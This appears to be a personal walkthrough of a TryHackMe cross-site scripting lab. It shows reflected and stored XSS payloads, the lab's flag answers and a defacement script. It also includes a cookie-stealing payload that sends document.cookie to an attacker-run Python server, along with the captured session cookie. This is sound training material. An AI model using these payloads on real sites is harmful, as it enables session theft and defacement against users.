 # 06. Cross-site Scripting

- Target: http://10.10.68.121

1) Navigate to http://10.10.68.121/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

- The source code

```
  <details>
        <summary>Why does this work?</summary></br>
        <p>When you submit anything in the search input, it will appear in the <b>keyword</b> query in your URL.</p>
        <p>Remember, the main difference between reflected and dom based xss, is that with reflected xss your
        payload (string in this case) gets inputted directly into the page. No Javascript is loaded before hand,
        neither is anything processed in the DOM before hand.</p>
        <p>Look at the source code, you will notice your payload is executed directly on the webpage.</p>
        <kbd>&lt;h6>You searched for: **[Your input will be input directly in here]**&lt;/h6></kbd>
        <p>This means any user input that is **not sanatised will be executed.**</p>
      </details>
```

⇒ The user input is not sanitized at all 

- The payload: `<script>alert("Hello");</script>`

**Result:** ThereIsMoreToXSSThanYouThink

2) On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

- According to hint in tryhackme, window.location.hostname will show your hostname, in this case your deployed machine's hostname will be its IP.
- The payload: <script>alert(window.location.host);</script>

Result: ReflectiveXss4TheWin

[Before changing to stored XSS]

- There is a technique simulating how to get cookie of other user so that if user clicks the link we send, our server will get the request that contains cookie of user
- Host the http server for ourselves by the command:  python3 -m http.server 8888
- The payload to send request with cookie: <script>var payload = 'http://10.17.24.66:8888/'+document.cookie; fetch(payload);</script>
- The result when we receive the request:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.17.24.66 - - [26/Feb/2024 08:58:58] code 404, message File not found
10.17.24.66 - - [26/Feb/2024 08:58:58] "GET /connect.sid=s%3AmyRul5pqABes83AFJlVUlGKmpbmCqA9-.9RMSMVFMRrarPMFdI0iwarMpxAdNsMmdx994kULs39g HTTP/1.1" 404 -
```

3) Then add a comment and see if you can insert some of your own HTML.

- Insert any html tag in the output bc the code is not sanitized at all: <h1>Fuck </h1> ⇒ create a tag successfully
- Here is the js code:

```
  let commentsEl = document.querySelector('#comments')
  if(commentsEl) {
    $.getJSON('/get-comments', function(comments) {
      commentsEl.innerHTML = ''
      for(let comment of comments) {
        // convertComment(comment.comment)
        fixJS(comment.comment)
        commentsEl.innerHTML += '<code>' + comment.username + '</code>: ' + comment.comment + '</br>'
      }
```

**Result:** Successfully added a HTML comment! Answer for Q1: HTML_T4gs

4) On the same page, create an alert popup box appear on the page with your document cookies.

- The payload to alert cookie: <script>alert(document.cookie)</script>

**Result:** W3LL_D0N3_LVL2

5) Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

- Firstly, we find ‘XSS playground’ in the source code, so we can see id 'thm-title'

```
img src="/img/smallLogo.png" height="30" class="d-inline-block align-top" alt="" style="margin-right: .5em;"> <span id='thm-title'>XSS Playground</span>
```

- Now we know that XSS playground has the id thm-title. Next, we will find the js code with #thm-title

```
function checkTitle() {
//[*] If the text content of the element with the ID 'thm-title' is "I am a hacker"
    if(document.querySelector('#thm-title').textContent == "I am a hacker") {
      $.getJSON('/get-answer-title-change', function(answer) {
// Display the fetched answer in an element with the ID 'stored-xss'
        document.querySelector('#stored-xss').innerHTML += 'Answer: <code>' + answer + '</code>'
      })
    }
  }

```

- The payload: <script>document.querySelector("#thm-title").textContent = "I am a hacker"</script>
- It will display the answer here

```
    <li>Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript. <span id="stored-xss"></span></li>
```

**Result:**  websites_can_be_easily_defaced_with_xss
